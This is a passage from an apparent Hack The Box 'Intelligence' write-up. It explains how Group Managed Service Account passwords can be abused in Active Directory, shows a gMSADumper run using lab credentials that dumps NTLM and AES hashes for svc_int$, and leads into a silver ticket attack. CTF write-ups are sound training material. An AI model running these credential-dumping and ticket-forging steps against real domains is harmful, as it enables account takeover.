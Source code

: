 SVC_INT$@INTELLIGENCE.HTB is a Group Managed Service Account. The group ITSUPPORT@INTELLIGENCE.HTB can retrieve the password for the GMSA SVC_INT$@INTELLIGENCE.HTB.

Group Managed Service Accounts are a special type of Active Directory object, where the password for that object is managed by and automatically changed by Domain Controllers on a set interval (check the `MSDS-ManagedPasswordInterval` attribute).

The intended use of a GMSA is to allow certain computer accounts to retrieve the password for the GMSA, then run local services as the GMSA. An attacker with control of an authorized principal may abuse that privilege to impersonate the GMSA.

I used [gMSADumper](https://github.com/micahvandeusen/gMSADumper) →

```bash
┌──(kali㉿kali)-[/opt/Tools/gMSADumper]
└─$ python3 gMSADumper.py -d intelligence.htb -u Ted.Graves -p 'Mr.Teddy'                     
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::e0dcda8d93bf71a6352ea7803c8f17f1
svc_int$:aes256-cts-hmac-sha1-96:fd6235dbfd8a560d17433b22022633ed7188588277cf4d174f6582daf2c5333f
svc_int$:aes128-cts-hmac-sha1-96:059ae234e725682d00c3c278b3cff01b
```
{: .nolineno}

I got the `svc_int` `ntlm hash` so lets proceed further and now I have **AllowedToDelegate** Delegation means I can have a silver ticket made so lets create it →

![Untitled](Intelligence%205c9413713b15427eaed2a111cea99e6f/Untitled%209.png)
